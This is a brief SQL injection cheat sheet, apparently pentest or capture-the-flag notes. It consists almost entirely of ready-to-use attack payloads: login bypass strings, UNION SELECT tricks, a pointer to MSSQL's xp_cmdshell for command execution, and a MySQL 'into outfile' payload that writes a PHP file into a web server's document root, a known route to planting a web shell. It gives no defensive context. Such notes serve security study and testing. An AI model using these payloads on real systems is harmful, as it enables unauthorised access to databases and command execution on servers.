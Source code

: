 - Try admin'# (valid username, see netsparker sqli cheatsheet)
- Try abcd' or 1=1;--
- Use UNION SELECT null,null,.. instead of 1,2,.. to avoid type conversion errors
#### For mssql,
- xp_cmdshell
- Use concat for listing 2 or more column data in one
#### For mysql,
- try a' or 1='1 -- -
- A' union select "" into outfile "C:\xampp\htdocs\run.php" -- -'

